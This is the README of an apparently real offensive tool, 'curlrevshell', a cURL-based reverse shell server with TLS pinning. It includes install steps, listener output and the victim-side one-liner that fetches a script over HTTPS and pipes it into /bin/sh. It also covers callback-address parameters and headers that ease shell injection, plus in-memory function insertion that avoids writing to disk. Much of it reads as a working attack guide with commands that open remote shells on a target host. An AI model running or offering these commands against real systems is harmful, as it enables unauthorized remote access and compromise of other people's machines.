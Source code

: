 cURL-Powered Reverse Shell
==========================
Somewhat kooky replacement for the typical `bash >/dev/tcp...` reverse shell,
but with the following "features":

- Underlying comms via HTTPS via double cURL
- Self-signed TLS certificate, plus certificate pinning
- Optionally serves static files
- Accepts multiple shells in series, like `nc -lk` but in color
- IPv6-ready
- Logged [feature creep](./doc/changelog.md)
- Non-zero [documentation](./doc/README.md)
- Makefiles which coldheartedly assume
  [BSD Make](https://man.openbsd.org/make)
- Easyish in-target-memory [shell function sender](./doc/flags.md#-ctrl-i)

For legal use only

Quickstart
----------
1. Install the Go compiler (https://go.dev/doc/install).
2. Install `curlrevshell` and start it.
   ```sh
   go install github.com/magisterquis/curlrevshell@sendscript
   curlrevshell
   ```
3. Get a shell, using one of the lines under `To get a shell:`.

There are a few options, try `-h` for a list.

Example
-------
It should look like the following, but with nicer colors:
```
$ go install github.com/magisterquis/curlrevshell@sendscript
go: downloading golang.org/x/sync v0.7.0
go: downloading github.com/magisterquis/goxterm v0.0.1-beta.2
go: downloading golang.org/x/net v0.27.0
go: downloading golang.org/x/tools v0.23.0
go: downloading golang.org/x/exp v0.0.0-20240719175910-8a7402abbf56
go: downloading golang.org/x/sys v0.22.0
go: downloading golang.org/x/text v0.16.0

$ curlrevshell
01:04:42.760 Listening on 0.0.0.0:4444
01:04:42.760 To get a shell:

curl -sk --pinnedpubkey sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY= https://192.168.1.10:4444/c | /bin/sh

01:04:55.247 [192.168.1.20] Sent script: ID:zcj5vz3zp6ce URL:192.168.1.10:4444
01:04:55.259 [192.168.1.20] Input connected: ID:1jns1whwi1p1q
01:04:55.259 [192.168.1.20] Output connected: ID:1jns1whwi1p1q
01:04:55.259 [192.168.1.20] Shell is ready to go!
> id
01:05:10.753 uid=1000(you) gid=1000(you) groups=1000(you), 0(wheel), 117(dialer)
```
On `192.168.1.20`, the victim box, somewhere between `01:04:42.760` and `01:04:55.247`:
```sh
curl -sk --pinnedpubkey sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY= https://192.168.1.10:4444/c | /bin/sh
```

Usage
-----
```
Usage: curlrevshell [options]

Even worse reverse shell, powered by cURL.

Keyboard Shortcuts:
Ctrl+O - Mute output for a couple of seconds (for if you cat a huge file)

Options:
  -callback-address address
    	Additional callback address or domain, for one-liner printing (may be repeated)
  -callback-template template
    	Optional callback template file, used if it exists
  -ctrl-i source
    	Tab/Ctrl+I's insertion source file or directory
  -icanhazip
    	Query icanhazip.com for a callback address
  -ipv6-one-liners
    	Also print callback one-liners with IPv6 addresses
  -listen-address address
    	Listen address (default "0.0.0.0:4444")
  -log file
    	Optional file to which to write JSON logs
  -no-timestamps
    	Don't print timestamps
  -one-shell
    	Close listening socket when first shell connects
  -print-default-template
    	Write the default template to stdout and exit
  -prompt string
    	Terminal prompt; don't forget a trailing space (default "> ")
  -serve-files-from directory
    	Optional directory from which to serve static files
  -tls-certificate-cache file
    	Optional file in which to cache generated TLS certificate (default "/home/stuart/.cache/sstls/cert.txtar")
```

Details
-------
Under the hood, it's really just a little HTTP server with four endpoints:

Endpoint          | Description
------------------|------------
`/i/{id}`         | Long-lived connection for input from you to the shell.
`/o/{id}`         | Output from the shell to you, one line at a time.  The `{id}` has to match `/i`'s.
`/c`              | Serves up a little script that takes the place of `bash >/dev/tcp...` and makes you appreciate low PIDs.
`/{anythingelse}` | Either serves up files or 404's if nobody gave it `-serve-files-from` (which doesn't actually have to be a directory).

Callback Template
-----------------
The script generated with `/c` can be changed by writing a new template and
telling the program about it with `-print-default-template`.  It usually looks
like
```sh
$ curlrevshell -print-default-template >custom.tmpl # Get the default template to start with
$ vim ./custom.tmpl                                 # Mod ALL the things!
$ curlrevshell -callback-template ./custom.tmpl     # Run with your fancy new template
```
The struct passed to the template is `TemplateParams` in
[script.go](internal/hsrv/script.go).  The default template is
[script.tmpl](internal/hsrv/script.tmpl).  It's re-read every time it's needed,
so feel free to change it as often as you'd like.

A script to generate a custom callback template with embedded shell functions
can be made with `make tools/funcgen` and is found in `tools/funcgen`.

On Linux, you'll probably need BSD make(`apt/yum/such install bmake`, or
thereabouts) and add a `b` before the `make`s.

Callback Address
----------------
Most of the time if you can connect to the server to grab a script (i.e. `/c`)
the server will work out the right callback address.  Most of the time.  For
those times which aren't Most, giving a URL with either a `c2` parameter to `/c`
or a `c2:` header should clear things up.  This is clearer with an example:

### As a URL parameter
The Request for a script:
```sh
curl -sk --pinnedpubkey sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY= https://192.168.1.10:4444/c?c2=kittens.com'
```
The `curl` command in the script:
```sh
curl -Nsk --pinnedpubkey "sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=" https://kittens.com/i/1upal29kpq9g7 </dev/null 2>&0 |
```
With `?c2=kittens.com` it would have been `https://192.168.1.10:4444` instead.

The server also tells us that the script was generated for `kittens.com`:
```
22:08:20.488 [192.168.1.20] Sent script: ID:1upal29kpq9g7 URL:kittens.com
```

### As a header
Sometimes it's a pain to put `?` and such in shell injection.  Headers are
easier.  We'll also add a port this time.
```sh
curl -Hc2:kittens.com:22 -sk --pinnedpubkey sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY= https://192.168.1.10:4444/c
```
Weird flex, but it worked.
```sh
curl -Nsk --pinnedpubkey "sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=" https://kittens.com:22/i/2v0ohzqf5kw1t </dev/null 2>&0 |
```
Server agrees
```
22:14:13.902 [192.168.1.20] Sent script: ID:2v0ohzqf5kw1t URL:kittens.com:22
```

TLS
---
TLS is all via a pinned self-signed certificate.  By default, the certificate
is cached in a file, mostly to keep from having to copy/paste a new fingerprint
every time a ragey Ctrl+C kills the current shell.  Caching can be disabled
with `-tls-certificate-cache ""`.

File Insertion
--------------
It's kinda nice to bring your own functions, even nicer to not have to
drop them to disk, and even nice still to not have to copy/paste a few hundred
lines of shell script by hand.

Works with single files, Perl scripts, and even entire directories.

More info in [the docs](./doc/flags.md#-ctrl-i).
